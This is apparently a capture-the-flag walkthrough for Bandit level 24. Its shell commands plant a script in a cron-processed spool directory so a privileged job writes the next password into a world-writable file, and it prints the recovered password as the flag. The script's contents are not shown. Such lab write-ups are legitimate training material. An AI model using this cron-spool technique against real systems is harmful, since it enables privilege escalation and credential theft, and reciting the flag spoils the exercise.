 # Bandit Level 24 Solution

```

bandit23@bandit:~$ mkdir /tmp/sol
bandit23@bandit:~$ cd /tmp/sol
bandit23@bandit:/tmp/sol$ touch password
bandit23@bandit:/tmp/sol$ chmod 666 password
bandit23@bandit:/tmp/sol$ chmod +x script.sh
bandit23@bandit:/tmp/sol$ cp script.sh /var/spool/bandit24/foo/.
bandit23@bandit:/tmp/sol$ sleep 60 && cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

**Flag:** ***`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`*** 

